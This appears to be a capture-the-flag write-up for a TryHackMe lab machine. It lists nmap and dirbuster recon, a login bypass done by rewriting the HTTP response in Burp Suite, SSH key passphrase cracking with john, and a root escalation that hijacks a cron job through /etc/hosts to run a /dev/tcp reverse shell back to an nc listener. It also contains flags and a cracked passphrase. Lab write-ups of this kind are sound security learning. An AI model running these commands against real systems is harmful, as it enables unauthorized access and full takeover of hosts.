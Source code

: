 1. Recon
   - `nmap -sV -sC -vv -A -T5 10.10.117.88`
   - ports discovered: 22 & 80


2. Enumerate the directories with dirbuster
   - `dirbuster -l /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://<target-ip>` 


3. failed attempts
   - /admin is SQLi protected
   - basic credentials like admin and guest with passwords admin and 12345 didn't work

4. Discoveries
   - found logic behind the login and ended up trying to bypass it with burp suite

 5. bypass the login logic with burp suite
    - installed foxyproxy extension on the browser and created a simple listener on 127.0.0.1:8080 that burp would use
    - used the Proxy tab in burp to intercept the login request and and configured it to receive the response to the login request
    - altered the login failure to a redirect to the page
      ```sh
      HTTP/1.1 302 FOUND
      Date: Mon, 20 Jul 2020 14:33:13 GMT
      Content-Length: 21
      Content-Type: text/plain; charset=utf-8
      Connection: close
      location: /admin
      ```
    - refreshed the webpage and got into a new page that had a private key in in belonging to "james"
    - possible user "Paradox"

6. Access to james' session with ssh
   - `ssh -i priv-key james@<target-ip>` < passphrase was found
   - used john to crack the passphrase
     - `ssh2john priv-key > priv-key.hash`
     - `john james-priv.hash --wordlist=/usr/share/wordlists/rockyou.txt`
   - passphrase: james13

7. Accessed james' session and found the first flag
   - thm{65c1aaf000506e56996822c6281e6bf7}
  
8. Ran linpeas on the target machine
   - found a cron job running as root
   - found /etc/hosts as rw to anyone

9. Privilege escalation attempt
   - because the machine has a cronjob that runs a script from overpass.thm/downloads/src/buildscript.sh, I need to create the path in my local machine and open an http server and a nc listener so that the target machine can connect to my machine via the cronjob(after changing the overpass.thm's ip in /etc/hosts)
   - changed overpass.thm's ip in /etc/hosts to my local machine ip
   - opened a nc listener on port 9001 `nc -lnvp 9001`
   - created the necessary paths(./downloads/src/buildscript.sh) so that the cron job fetches the script correctly
   - opened an http server on my local machine so that the curl will refer to my local machine `python3 -m http.server 80`
   - added this shell code to buildscript.sh in my local machine inside /download/src/buildscript.sh
     ```sh
     bash -i >& /dev/tcp/<local-machine-ip>/9001 0>&1
     ```

10. Got root after the cronjob ran and found the flag
    - thm{123cewfa00ey0e6yrt56954386321e61wqa}
